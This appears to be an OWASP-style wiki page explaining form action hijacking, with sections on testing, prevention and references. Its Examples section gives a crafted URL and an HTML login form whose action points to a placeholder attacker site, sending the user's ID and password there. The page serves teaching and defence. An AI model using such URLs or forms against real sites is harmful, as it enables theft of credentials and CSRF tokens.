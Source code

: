 ```yaml
---

layout: col-sidebar
title: Form action hijacking
author: 
contributors: 
permalink: /attacks/Form_action_hijacking
tags: attack, Form action hijacking
auto-migrated: 1

---
```


## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use a whitelist of allowed URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

`https://vulnerablehost.com/?url=https://attackersite.com`

Source:

```html
<form name="form1" id="form1" method="post" action="https://attackersite.com">
    <input type="text" name="id" value="user name">
    <input type="password" name="pass" value="password">
    <input type="submit" name="submit" value="Submit">
</form>
```

## References

- [Common Weakness Enumeration - CWE-20: Improper InputValidation](https://cwe.mitre.org/data/definitions/20.html)
- [PortSwigger: Form action hijacking(reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
- [PortSwigger: Form action hijacking(stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)
